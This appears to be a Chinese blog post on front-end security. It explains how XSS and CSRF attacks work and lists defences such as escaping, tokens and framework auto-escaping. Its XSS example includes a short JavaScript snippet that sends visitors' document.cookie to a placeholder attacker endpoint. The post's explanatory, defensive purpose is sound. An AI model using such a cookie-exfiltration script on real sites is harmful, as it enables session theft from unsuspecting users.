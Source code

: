 ```yaml
---
layout:     post
title:      "前端安全"
subtitle:   " \"开发中不可忽略的安全问题...\""
date:       2018-04-17
author:     "Kerwin She"
header-img: "img/post-bg-js-version.jpg"
tags:
    - 前端安全
---
```


# XSS的原理和防范方式

XSS全称Cross Site Scripting（为啥不叫CSS？为了和层叠样式表Cascading Style Sheets区分），即跨站脚本攻击。

定义 恶意用户 是实行XSS攻击的人，恶意代码 是指含有某些可执行恶意前端脚本的代码，目标用户 是指受到XSS攻击的人。

恶意用户将恶意脚本装作普通文本的样式上传到服务器，这些文本将被渲染到目标用户的页面上，从而被执行，这样的流程称之为‘跨站脚本攻击’。

举例：有一个发表评论的功能，一个人发表了评论大家就都能看见，于是恶意用户就在这个评论区发表了以下代码：
```javascript
  var request = new XMLHttpRequest();
  request.open('POST', '/攻击者自家的收集数据的接口', true);
  request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');
  request.send(document.cookie);
```

如果这个代码未经过滤直接执行，那么攻击者将会收集所有访问这个评论区的用户的cookie以便执行只有目标用户才有权限做的事情。

作为网站建设方，我们通常可以采取以下手段来防止XSS攻击：

1. 转义 &lt; &gt; 这些特殊字符为实体字符
2. 利用正则判断攻击脚本
3. 尽量修改节点文本而不是修改节点内容html


事实上，现代模板引擎和MVVM框架往往都自带防御XSS攻击的模板写法。

例如在ng2、Vue和handlebars.js里，双花括号表示自动过滤，三花括号才表示不经转义直接输出。


# CSRF的原理和防范方式

CSRF全称Cross-site request forgery（跨站请求伪造）是指恶意用户将某些需要他人权限的接口埋藏在自己的脚本中，将脚本利用XSS相同的注入方式或诱导用户点击执行等方式令拥有权限者执行，从而达到自己的目的。

例如，恶意用户想要给某个人刷票，而一个微信号只能投一张票，他发现了刷票的接口为A，则将对A进行Ajax请求的XSS脚本注入某网站（方法1）,或者利用像色情等吸引眼球的方法（方法2）将此段脚本内嵌入自己写的网页中诱使他人点击，从而实现不断有有效用户访问这个接口的目的。

作为网站建设方，我们通常可以使用以下手段来防止CSRF攻击：

 1. 尽量对要修改数据的请求使用post而不是get
 2. 给每一次用户登陆分配一个临时token，用服务端的setCookie头将此token种入用户cookie中，每次请求比对用 户方token与服务器端token是否吻合。
 3. 服务器禁止跨域请求
 4. 及时清除用户的无效cookie

 > 更详细[内容][1]


 [1]:https://segmentfault.com/a/1190000006672214
